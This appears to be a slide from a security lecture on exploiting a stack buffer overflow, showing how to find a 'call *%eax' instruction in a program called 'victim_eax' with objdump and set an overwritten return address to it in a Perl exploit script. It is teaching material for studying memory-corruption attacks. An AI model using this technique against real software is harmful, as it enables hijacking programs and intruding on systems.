

# Step 2: Get address of call *%eax
[~]$ objdump -d victim_eax | grep "*%eax"
 80483df:	ff d0                	call   *%eax
# This address must match the address of call *%eax instruction
my $retaddr = "\xdf\x83\x04\x08";  #80483df
10